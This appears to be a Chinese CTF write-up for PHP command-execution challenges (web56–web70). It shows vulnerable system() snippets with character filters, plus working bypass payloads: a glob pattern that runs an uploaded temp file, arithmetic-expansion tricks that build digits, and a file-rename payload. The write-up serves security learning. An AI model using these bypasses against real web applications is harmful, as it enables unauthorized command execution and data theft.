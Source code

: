 >这个题问什么不能用`或运算绕过`??
### web56  
- [无字母数字webshell之提高篇](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html?page=2#reply-list)  
- [无聊日记2-构造请求包进行文件上传](https://www.cnblogs.com/loser-time/p/14850731.html)

无字母数字，又过滤了`(` `"`，所以不能用异或那些绕过方式。可以用临时文件上传
```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\\$|\(|\{|\'|\"|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}
```
原理：
- 我们通过POST上传的文件，会被PHP保存在临时文件夹下，默认的文件名是/tmp/phpXXXXXX，文件名最后6个字符是随机的大小写字母  
- `/tmp`文件夹下其他非PHP生成的临时文件是不会出现大写英文字母的，但我们上传的文件也只是概率会出现大写字母，所以要多次上传
- 和正则表达式类似，glob也支持利用例如`[0-9]`、`[a-z]`的形式来表示一个范围。这样我问就可以匹配大写字母
- 可以通过`.`或者叫period，用当前的shell执行一个文件中的命令。比如，当前运行的shell是bash，则`. file`的意思就是用bash执行file文件中的命令

实现的话需要伪造一个POST包，和一条执行文件的命令     
- 命令
    用问号匹配前面的字母，`[@-[]`匹配最后一位大写字母     
    ```
    /tmp/phpXXXXXX
    /???/????????[@-[]
    ```
    用`.`执行我们上传的文件，最终payload:  `.%20/???/????????[@-[]`   
- POST包
    可以在bp的request窗口鼠标右键，然后点击`Change request method`和`Change body encoding`来把报文改为POST模式，不用再手动添加`Content-Type`和手写POST包体的格式       
    但要在`Content-Disposition`字段下添加`filename="1.txt"`    
    ![](https://gitee.com/SSSSSHONE/ss/raw/master/20241125193327.png)      
    ![](https://gitee.com/SSSSSHONE/ss/raw/master/20241125194833.png)      
### web57
题目提示flag在`36.php`所以我们的目标是构造出`36`这个数字  
```php
//flag in 36.php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/i", $c)){
        system("cat ".$c.".php");
    }
}
```
过滤了`"`所以不能用异或绕过那些，可以用`$(())`构造数字，`36`取反是`-37`,`$(())`是`0`，`0`取反是`-1`，多个`-1`可以相加构造出`-37`，再给`-37`取反构造出`36`  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241125201407.png)      
最终payload：    
```
?c=$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))
```
### web58-70命令执行，突破禁用函数
payload：
```php
rename('flag.php','1.txt');
```